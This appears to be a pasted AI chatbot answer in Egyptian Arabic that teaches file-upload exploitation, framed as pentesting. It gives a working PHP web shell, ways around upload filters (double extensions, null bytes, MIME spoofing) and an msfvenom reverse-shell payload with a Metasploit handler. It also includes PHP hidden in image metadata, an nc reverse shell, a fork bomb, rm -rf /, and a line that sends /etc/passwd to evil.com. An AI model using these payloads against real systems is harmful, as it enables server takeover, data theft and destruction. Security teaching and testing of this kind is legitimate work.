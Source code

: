 تمام، هشرحلك موضوع "Uploading and Executing Malicious Files" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Uploading and Executing Malicious Files بعمق**
المقصود هنا إنك كـ Pentester بتحاول ترفع ملف "خبيث" (يعني فيه كود أو برنامج مضر) على سيرفر أو نظام، وبعدين تخليه يتنفذ (يتعمل Run) عشان تحقق هدفك، زي التحكم في السيرفر أو سرقة بيانات. المشكلة دي بتحصل لما النظام بيسمحلك ترفع ملفات من غير ما يفحصها كويس أو يمنع تنفيذها.

**النقاط الأساسية:**
- **Upload:** عملية رفع الملف (زي صورة، PDF، أو سكربت) للسيرفر.
- **Execution:** لما الملف ده يتنفذ ككود أو برنامج على السيرفر أو جهاز الضحية.
- **الثغرة:** لو الموقع ما عندوش فلترة قوية على نوع الملفات أو بيسمح بتنفيذها من غير ما يقفل الميزة دي.

==مش شرط ارفع ملف بس لكن في احتمال ان ان الاقي ملف علي الموقع== واقدر اعدل عليه ساعتها اقدر احط payload في الملف وانفذه من الموقع
**خلاصة بالعامية:**  
يعني لو الموقع بيخليك ترفع أي حاجة من غير ما يقول "استنى شوية نشوف دي ايه"، وكمان بيفتحها أو يشتغلها بنفسه، يبقى إنت ممكن ترفع حاجة تخربله الدنيا.

---

### **2. الجانب العملي: ازاي بنستغل الثغرة دي**
هنشرح الخطوات والطرق الشائعة مع أمثلة عملية:

#### **أ. رفع ملفات سكربت (مثل PHP Shell)**
كتير من المواقع بتسمح برفع ملفات (زي صور البروفايل أو المرفقات)، لو ما بتفحصش امتداد الملف أو بتسمح بتنفيذه، بنقدر نرفع شيل.

- **مثال عملي:**
  اعمل ملف PHP بسيط كده (اسمه مثلاً `shell.php`):
  ```
  <?php system($_GET['cmd']); ?>
  ```
  ده ملف لما ترفعه وتوصله بـ URL زي:
  ```
  http://target.com/uploads/shell.php?cmd=whoami
  ```
  هيرجعلك اسم المستخدم اللي السيرفر شغال بيه.

- **خطوات الاستغلال:**
  1. ابحث عن مكان رفع ملفات في الموقع (زي رفع صورة بروفايل).
  2. جرب ترفع الملف العادي (`shell.php`).
  3. لو الموقع بيرفض الـ `.php`، غير الامتداد لـ `.php5` أو `.phtml` أو حتى `.php.jpg` (Double Extension).
  4. استخدم أداة زي **Burp Suite** عشان تعدل الـ MIME Type في الـ Request لـ `application/octet-stream` بدل `image/jpeg`.
  5. لو اتقبل، افتح اللينك اللي الملف اترفع عليه وجرب أوامر.

- **أمر عملي كـ Pentester:**
  لو الملف اترفع على `http://target.com/uploads/shell.php`， جرب:
  ```
  http://target.com/uploads/shell.php?cmd=dir
  ```
  لو رجعلك ملفات السيرفر، يبقى الثغرة شغالة.

**خلاصة بالعامية:**  
لو الموقع سابك ترفع سكربت ونفذه، يبقى كأنك حطيت مفتاح الباب في جيبك وتقدر تعمل أي حاجة.

#### **ب. استغلال فلاتر ضعيفة (Bypass File Upload Restrictions)** 
كتير من المواقع بتحط فلاتر (زي "الملف لازم يكون صورة بس")، لكن الفلاتر دي ممكن تتخطى.

#### ==> [طريقه عمل payload داخل صوره ](https://chatgpt.com/c/680811df-2d14-8008-8e84-9ba0d6691750)


- **مثال عملي:**
  لو الموقع بيقبل بس `.jpg`، اعمل ملف كده (اسمه `evil.jpg`):
  ```
  <?php system('whoami'); ?>
  ```
  وعدل الـ HTTP Request في Burp Suite:
  - غير الـ Content-Type لـ `image/jpeg`.
  - أو أضف Null Byte في الاسم: `evil.jpg%00.php`.

- **اختبار عملي:**
  جرب ترفع ملف بامتدادات مختلفة:
  ```
  shell.php
  shell.php5
  shell.PhP (Case Sensitivity)
  shell.jpg.php
  ```
  لو الموقع بيسمح بتنفيذ أي حاجة من دول، هتبقى ثغرة.

**خلاصة بالعامية:**  
الموقع لو بيقولك "ارفع صور بس" بس ما بيفحصش كويس، ممكن تلبسه صورة مزيفة جواها سكربت ويشتغل عادي.

#### **ج. رفع ملفات تنفيذية (Executable Files)**
لو السيرفر بيسمح برفع ملفات زي `.exe` أو شيل عكسي وينفذها، بنقدر نتحكم كامل.

- **مثال عملي:**
  اعمل شيل عكسي بـ **msfvenom**:
  ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o evil.exe
  ```
  - ارفعه على الموقع لو لقيت حقل ملفات مفتوح.
  - نفذه يدويًا لو ليك وصول (مثلاً عن طريق Command Injection).
  - استمع على الـ **Metasploit**:
  ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 10.10.10.10
  set LPORT 4444
  exploit
  ```

- **أمر عملي كـ Pentester:**
  لو الموقع بيسمح برفع `.exe`، جرب ترفع ملف بسيط زي `calc.exe` وشوف لو اتفتحت الآلة الحاسبة على السيرفر.

**خلاصة بالعامية:**  
لو الموقع بيخليك ترفع برنامج ويشتغله، يبقى كأنك قولتله "خد البندقية دي واضرب نفسك بيها".

#### **د. استغلال ملفات غير متوقعة (PDFs, Images)**
حتى الملفات اللي المفروض آمنة زي الصور أو PDF ممكن تكون فيها ثغرات.

- **مثال عملي:**
  اعمل صورة مضروبة بكود PHP داخلها:
  ```
  exiftool -Comment="<?php system('whoami'); ?>" image.jpg
  ```
  ارفعها، ولو السيرفر بينفذ الـ Metadata، هتشتغل.

- **اختبار عملي:**
  جرب تضيف كود JavaScript في PDF:
  ```
  app.alert("Hacked!");
  ```
  لو الموقع بيفتح الـ PDF في المتصفح من غير Sanitization، الكود هيتنفذ.

**خلاصة بالعامية:**  
حتى لو الموقع بيقولك "ارفع صورة أو PDF بس"، ممكن تخبي فيهم حاجة خبيثة ويشتغلوا عادي لو ما فيش حماية.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها الثغرة دي:

1. **Web Shell Upload:**
   - رفع شيل PHP (`<?php system($_GET['cmd']); ?>`) والتحكم في السيرفر.
   - استخدام أوامر زي `ls` أو `dir` أو حتى رفع شيل أكبر.

2. **Reverse Shell:**
   - رفع ملف `.php` أو `.exe` يفتح اتصال عكسي (`nc -e /bin/sh 10.10.10.10 4444`).
   - السيطرة الكاملة على السيرفر.

3. **Bypass Restrictions:**
   - استخدام Double Extensions (`shell.php.jpg`).
   - تغيير الـ MIME Type في الـ Request.
   - استخدام Null Byte (`shell.php%00.jpg`).

4. **Malicious Media:**
   - تضمين كود في صورة (`exiftool` مع PHP).
   - كود JavaScript في PDF أو Word يتنفذ لما يتفتح.

5. **Privilege Escalation:**
   - لو السيرفر بينفذ الملف بصلاحيات عالية، ممكن ترفع سكربت يعدل ملفات النظام (زي `/etc/passwd`).

6. **DDoS أو تدمير:**
   - رفع ملف يعمل Fork Bomb (`:(){ :|:& };:` في Linux) يعلق السيرفر.
   - أو ملف يحذف كل حاجة (`rm -rf /`).

7. **Data Exfiltration:**
   - رفع سكربت يسرق بيانات ويبعتها ليك:
   ```
   <?php file_get_contents('http://evil.com/log.php?data='.base64_encode(file_get_contents('/etc/passwd'))); ?>
   ```

---

### **نصيحة كـ Pentester:**
- استخدم **Burp Suite** عشان تعدل الـ Requests وتجرب امتدادات مختلفة.
- جرب كل أنواع الملفات (PHP, ASP, EXE, JPG, PDF) وشوف ايه اللي بيعدي.
- لو لقيت الملف اترفع بس ما بيتنفذش، ابحث عن طريقة ثانية (زي Command Injection) عشان تفعله.
- دايمًا احفظ اللينك اللي الملف اترفع عليه وجرب تتصل بيه.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!